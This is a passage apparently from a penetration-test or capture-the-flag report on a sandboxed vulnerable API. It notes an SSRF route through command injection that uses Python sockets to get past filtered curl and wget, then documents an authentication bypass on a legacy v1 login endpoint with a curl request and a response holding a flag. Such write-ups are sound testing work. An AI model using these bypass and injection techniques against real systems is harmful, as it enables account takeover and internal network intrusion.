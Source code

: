 **Notes:**

- The vulnerability allows network reconnaissance and internal service access through Python socket connections
- While HTTP client tools (curl, wget) are not available or are filtered, Python's socket module provides full network access capability
- This represents an indirect SSRF vector through command injection rather than direct URL manipulation
- The attack demonstrates Level 2 proof (partial network access) with confirmed ability to reach internal network boundaries

# Authorization Exploitation Evidence

## Successfully Exploited Vulnerabilities

### AUTHZ-VULN-07: Legacy Authentication Bypass (Critical Impact)

**Summary:**

- **Vulnerable location:** POST /api/v1/users/login
- **Overview:** Complete authentication bypass for any valid email address without password verification
- **Impact:** Full account takeover for any existing user, unauthorized access to protected resources
- **Severity:** Critical

**Prerequisites:**

- Knowledge of any valid email address in the system (can be enumerated)
- Access to the hidden v1 API endpoint

**Exploitation Steps:**

1. **Send authentication request to legacy endpoint:**
    
    ```bash
    curl -X POST "<http://capital-api.sandbox.local:8000/api/v1/users/login>" \\
      -H "Content-Type: application/json" \\
      -d '{
        "user": {
          "email": "user@test.com",
          "password": "anypassword"
        }
      }'
    
    ```
    
2. **Receive successful authentication response:**
    
    ```json
    {
      "user": {
        "username": "user",
        "email": "user@test.com",
        "bio": "",
        "image": null,
        "admin": false,
        "token": "Keep it up!"
      },
      "flag": "flag{Impr0peR_Ass3ts_ManAg3m3nt}",
      "description": "Old API versions are usually unpatched..."
    }
    